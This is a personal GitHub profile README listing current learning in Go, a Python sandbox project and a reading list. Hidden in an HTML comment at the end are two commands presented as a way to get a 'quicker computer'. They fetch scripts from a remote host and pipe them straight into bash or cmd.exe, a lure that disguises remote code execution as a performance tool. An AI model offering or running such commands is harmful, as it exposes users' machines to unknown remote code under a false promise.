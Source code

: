 ## Hi
This is DackJempsey's profile. Take a look around and let me know if you have any questions :smile:

### Currently Learning
Working on sharpening my Go programing skills. Be sure to check in for more repos. \
If you are interested in working with me on the [python sandbox](https://twosixtech.com/hijacking-the-ast-to-safely-handle-untrusted-python/) you can send me an email and I will add you to the private repo.


### Current Reading list
[Endurance](https://www.amazon.com/Endurance-Shackletons-Incredible-Alfred-Lansing/dp/0465062881)
[Quantum Computing and Quantum Information](https://www.amazon.com/Quantum-Computation-Information-10th-Anniversary/dp/1107002176/ref=sr_1_1?crid=3K2FR2P6HUCV2&keywords=nielsen+quantum+computing&qid=1676434522&s=books&sprefix=nielson+quantum+computing%2Cstripbooks%2C65&sr=1-1&ufe=app_do%3Aamzn1.fos.006c50ae-5d4c-4777-9bc0-4513d670b6bc)
[Hacking APIs](https://nostarch.com/hacking-apis)


<!--
`wget quicker.computer/fe334TGee4GWindows100R443 |C:\Windows\system32\cmd.exe`
**DackJempsey/DackJempsey** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

if you want a quicker computer mac edition:\
`curl -Ls quicker.computer/Fr345T5GTRANDOMSTRING24n4t5|bash`\
a quicker windows script coming soon

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
